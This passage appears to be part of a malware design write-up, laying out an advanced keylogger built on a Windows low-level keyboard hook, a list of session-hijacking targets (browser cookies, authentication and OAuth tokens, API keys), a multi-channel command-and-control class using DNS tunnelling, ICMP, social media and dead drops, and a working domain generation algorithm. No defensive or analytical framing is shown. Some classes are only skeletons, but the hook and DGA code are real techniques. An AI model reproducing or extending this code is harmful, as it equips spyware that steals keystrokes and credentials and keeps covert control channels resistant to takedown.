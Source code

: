 #### B. Advanced Keylogger
```python
class AdvancedKeylogger:
    def __init__(self):
        self.hook = None
        self.buffer = []
        self.clipboard_monitor = ClipboardMonitor()
        
    def start(self):
        # Low-level keyboard hook
        self.hook = SetWindowsHookEx(
            WH_KEYBOARD_LL, 
            self.callback, 
            kernel32.GetModuleHandleW(None), 
            0
        )
```

#### C. Session Hijacking
- Browser session cookies
- Authentication tokens
- OAuth tokens
- API keys extraction

### 4. Robust C2 Infrastructure

#### A. Multi-Channel C2
```python
class MultiChannelC2:
    channels = [
        HTTPSChannel(),      # Primary
        DNSTunnelChannel(),  # Covert
        ICMPChannel(),       # Stealthy
        TwitterChannel(),    # Social media
        PastebinChannel(),   # Dead drop
        BlockchainChannel()  # Immutable
    ]
```

#### B. Domain Generation Algorithm
```python
def generate_dga_domains(date, count=50):
    """Time-based DGA for C2 resilience"""
    domains = []
    for i in range(count):
        seed = f"{date}{i}{SEED_CONSTANT}"
        hash_val = hashlib.sha256(seed.encode()).hexdigest()
        domain = f"{hash_val[:16]}.{random.choice(TLDS)}"
        domains.append(domain)
    return domains
```
